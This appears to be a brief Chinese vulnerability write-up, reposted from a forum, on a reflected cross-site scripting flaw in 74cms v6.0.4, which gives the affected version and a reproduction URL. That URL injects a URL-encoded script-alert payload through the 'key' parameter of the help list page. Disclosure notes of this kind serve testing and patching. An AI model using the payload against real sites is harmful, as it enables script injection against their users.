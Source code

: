 # 74cms v6.0.4 反射型xss

> 原文：[https://www.zhihuifly.com/t/topic/2797](https://www.zhihuifly.com/t/topic/2797)

# 74cms v6.0.4 反射型xss

## 一、漏洞简介

## 二、漏洞影响

74cms v6.0.4

## 三、复现过程

```
 http://www.0-sec.org/index.php?m=&c=help&a=help_list&key=137244gq1lw%3cscript%3ealert%281%29%3c%2fscript%3edutvxlqd4lq&__hash__=d7aa5a382f14d270c3ac4de8392b4e1d_a34adb2b339972672eb447276f69ee88 
```